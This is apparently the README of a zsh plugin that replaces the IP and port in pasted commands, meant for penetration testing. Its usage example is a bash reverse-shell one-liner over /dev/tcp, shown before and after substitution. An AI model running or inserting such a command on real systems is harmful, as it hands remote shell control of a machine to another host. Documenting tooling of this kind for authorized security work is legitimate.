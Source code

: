 ## Install

### [oh-my-zsh](http://github.com/robbyrussell/oh-my-zsh)
- clone repo inside your oh-my-zsh repo
	```shell
	git clone https://github.com/Ha-L0/zsh-replace-ip-port ${ZSH_CUSTOM:-${ZSH:-~/.oh-my-zsh}/custom}/plugins/zsh-replace-ip-port
	```

- add `zsh-replace-ip-port` to plugins in `~/.zshrc` config
	```
	plugins(... zsh-replace-ip-port)
	```

## Usage

```shell
export IP=123.123.123.123 # your ip
export PORT=1111 # your port
```

write or copy paste command with ip and port

```shell
$ bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

before executing press `CTRL + o` and ip and port gets replaced

```shell
$ bash -i >& /dev/tcp/123.123.123.123/1111 0>&1
```

